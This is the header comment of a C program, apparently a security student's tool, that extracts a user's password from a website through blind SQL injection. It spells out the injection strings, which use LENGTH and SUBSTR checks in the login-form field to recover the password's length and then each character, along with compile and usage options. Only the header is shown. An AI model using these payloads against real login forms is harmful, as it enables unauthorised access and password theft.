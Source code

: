/************************************************************************************************
*
* Description  : SQL Injection tool to recover an user's password.
*                It uses the following injection methods in the $login_form field :
*                "$login_form=$usr_name' AND LENGTH($pwd_col)=i;"        to recover pwd len
*                "$login_form=$usr_name' AND SUBSTR($pwd_col,i,1)='$c';" to recover each char
* 
* Author       : Caille Jimmy, MSE-ICT student in Telecomunication Networks and Information Security
* 
* Prerequisite : install libcurl-dev
* Compile      : gcc attack.c -o attack -lcurl -Wall -Wextra
* Usage        : ./attack -h
*      [param] [remark]            [default value]
* Usage: -h    help, this message  -none-
*        -U    URL, necessary !    -none-
*        -u    username            admin
*        -f    username field name username
*        -p    password DB name    password
*        -P    password field name password
*        -m    password min len    1
*        -M    password max len    20
*        -c    char min (decimal)  ' ' (32)
*        -C    char max (decimal)  '~' (126)
*        -s    success message     Welcome
*        -v    verbose             disabled
*
* License      : Unlicense, for more information, please refer to <https://unlicense.org>
*
* Version      : v0.2 - attacking multiple usernames
*                v0.3 - parameters added, multiple username removed, cleanup
*                v0.4 - strcpy replaced by strncpy for safely copying parameters
*                       sprintf replaced by snprtinf
*                       differentiates -v verbose   (shows requests)
*                                      -r responses (shows html)
*                                      -d libcurl debug
*                       help displayed when unknown parameter is given
*
*************************************************************************************************/